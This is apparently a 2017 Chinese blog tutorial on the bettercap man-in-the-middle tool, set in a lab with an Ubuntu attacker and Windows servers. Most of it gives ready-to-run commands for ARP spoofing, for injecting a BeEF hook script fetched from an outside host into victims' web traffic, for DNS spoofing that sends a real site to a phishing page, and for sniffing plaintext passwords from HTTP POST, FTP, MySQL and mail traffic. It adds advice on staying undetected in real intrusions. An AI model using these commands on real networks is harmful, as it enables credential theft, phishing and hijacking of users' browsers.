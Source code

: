 ```yaml
---
title: 轻量高效的 MITMF [ bettercap ]
date: 2017-11-07 07:25:29
tags: MITMF
categories: "bettercap"
author: klion
---
```


0x01 关于bettercap:
```
一款相对还不错的中间人工具,出来也有些年头了,不过貌似维护的并不是特别勤快
从名字就不难看出,作者似乎是有意在向我们说明,这是一款比ettercap更好的中间人工具,'b' is better ^_^
此外,工具本身基于ruby,官方要求的 ruby版本为 >= 1.9
```

0x02 基本介绍:
```
ubuntu 16.04.3 LTS 	ip: 192.168.3.12    入侵者机器
win2008r2cn		ip: 192.168.3.23    模拟正常服务器,事先已准备好各种服务
win2008cn		ip: 192.168.3.131   模拟正常服务器,事先已准备好各种服务
win2012r2cn		ip: 192.168.3.122   模拟正常服务器,事先已准备好各种服务
```

0x03 首先,安装好bettercap,如果你系统的ruby版本小于1.9记得务必先升级一下,更多详情请参考其官方说明,如下
```
# apt-add-repository ppa:brightbox/ruby-ng
# apt-get update
# apt-get install ruby2.3 ruby2.3-dev
```
<!-- more -->

安装一些必要的基础依赖库
```
# apt-get install build-essential ruby-dev libpcap-dev net-tools
```

通过gem安装bettercap,安装成功后,我们就可以继续后面的内容了
```
# gem install bettercap
# echo $?
```
![''](/img/bettercap_res.png)

0x04 常规选项用法:
```
-I		指定要嗅探欺骗的网卡接口
--use-mac	使用自定义mac
--random-mac	使用随机mac
-G		指定网关ip
-T 		指定要嗅探的目标机器,可以是单个机器,亦可是多个机器,默认不指定会直接欺骗同内网下的所有机器[不过,实际中最好不要这样干]
--no-discovery	不启用主机发现模块,直接使用当前机器的arp缓存[即arp -a的内容],默认会自动启动
-O		将流过的所有数据都记录到指定的文件中,在实战中建议指定该选项,便于后续下载到本地仔细分析
```

0x05 主要功能选项[欺骗及嗅探器]:
```
-S  启用欺骗功能,默认就会开启,且默认使用的是ARP欺骗,你也可以用更偏上层协议,如,ICMP,HSRP...
-X  启用嗅探器,注意,光启用spoofer单单只是让其它机器的流量经过自己,而嗅探器则是用来抓取这些流量中的密码
-P  抓取指定类型的数据,主要是针对各类明文密码及访问记录,如,FTP,POST,MYSQL...默认会抓取所有类型,为了利于后期分析,建议指定类型
```

0x06 使用各种协议的透明代理功能,我们可以拿它来观察目标机器的访问记录,甚至可以直接往里注入恶意流量,注意,当http代理功能开启后,ssltrip也会自动开启:
```
--proxy	 启用http代理,这个也可能是最常用的,除了http,它也支持https,tcp,udp及自定义代理流量
--proxy-module injecthtml,injectjs,redirect,injectcss	往来回的http流量中注入恶意数据
```

如,在来往的的http流量中注入恶意js,主动让同内网下的所有浏览器上线,这里只是为了简单演示效果,才用的beef,实际中可以换成更好一点的xss平台,从上面选项中我们看到,除了注入js,html,css都是支持的
```
# bettercap -I ens33 -S ARP --proxy --proxy-module injectjs --js-url "http://*.3.10:3000/hook.js" -G 192.168.3.1 -T 192.168.3.120-135
```
![''](/img/bettercap_injection.png)
![''](/img/bettercap_injection_res.png)

0x07 利用`http server`和`--dns`功能,进行dns欺骗进行钓鱼,这里有个不好的地方,就是dns缓存会在目标机器上持续很久,必须手工刷新缓存才行,而且被劫持以后,当用户访问别的域名有时是访问不了的,另外,bettercap似乎并不依靠系统内核进行转发,挺好

编辑dns解析文件,意思就是将所有访问freebuf.com的流量都重定向到本地的web服务器上
```
# vi dns.txt
  local .*freebuf\.com
```

```
# bettercap --httpd --httpd-port 80 --httpd-path=/root/hacked.html --dns dns.conf
# ipconfig /flushdns	污染完了以后,记得顺手把dns缓存清一下
```
![''](/img/bettercap_dns.png)
![''](/img/bettercap_dns_res.png)

0x08 其它的一些常规用法

尝试抓取http POST数据中的各类明文密码:
```
# bettercap -I ens33 -S ARP -X -P POST -G 192.168.3.1 -T 192.168.3.131
```
![''](/img/bettercap_http.png)
![''](/img/bettercap_http_admin.png)
![''](/img/bettercap_http_res.png)

抓各类服务明文及hash,这里只是随便演示几个,支持的服务和工具比较多,不过用法都非常简单,大家可执行查看其帮助:
```
# bettercap -I ens33 -S ARP -X -P "MAIL,FTP,MYSQL" -G 192.168.3.1 -T 192.168.3.120-135
```
![''](/img/bettercap_pass_ftp.png)
![''](/img/bettercap_pass_mysql.png)

<br>
小结:
&nbsp;&nbsp;&nbsp;&nbsp;工具基本属于全程傻瓜化的那种,虽然,目前还有些小瑕疵,不过用用还是可以的,在实战中可能最多就是用它来抓抓密码,自己实战中也用过几次,说实话,效果并没想象的那么好,其它的那些花哨功能,在实战也并不太建议用,内网毕竟不像web,稍有不慎,极易被发现,权限万一丢了,再想拿回来就费劲了,一切还以稳定为主,另外,工具比较轻量[起码自己感觉确实比ettercap温柔多了,暂时还没出现过把对方搞掉的情况],程序结构化非常分明,用什么开什么即可,避免动静过大,有些功能可能会默认开,如`spoofer 功能`,如果没必要用它,直接`-S NONE`即可,废话不多讲,大家还是自行在实战中多多体会吧,另外,由于篇幅原因,没法每一项都介绍的非常详细,官方已经为我们提供了非常详细的使用说明,英文还可以的朋友,可以直接去读一手文档,相信只要不是英文烂到没朋友的那种,基本都能轻松看懂,其实,自己很多也都是参考其官方文档来的,最后,如果目标是Ubuntu14.04以上的系统还是非常值得尝试的,否则这个ruby环境在其它系统中搞起来可能会比较麻烦,祝好运 ^_^

